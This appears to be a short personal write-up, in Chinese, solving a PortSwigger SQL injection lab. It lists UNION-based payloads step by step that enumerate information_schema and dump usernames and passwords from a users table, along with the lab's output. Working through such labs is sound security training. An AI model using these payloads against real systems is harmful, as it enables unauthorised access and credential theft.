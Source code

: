 https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables

先用 https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text 的方法找出有字串的欄位

```
' UNION SELECT NULL, NULL -- abc 		success
' UNION SELECT 'cat', NULL -- abc		success
' UNION SELECT 'cat', 'meow' -- abc		success
```

利用 information schema 找 database, table, column，最後找到資料

## 找 database
```
' UNION SELECT schema_name, NULL FROM information_schema.schemata -- abc
```
public
information_schema
pg_catalog

## 找 table
```
' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema = 'public' -- abc
```
products
users

## 找 column
```
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_schema = 'public' and table_name = 'users' -- abc
```
password
username
## 找 data
```
' UNION SELECT username, password FROM public.users -- abc
```
administrator
	al33qc8rbajqg8t0wylj
wiener
	aawd12yibtwky2mlxum6
carlos
	8cvq4q3brje3ze4sp8hm

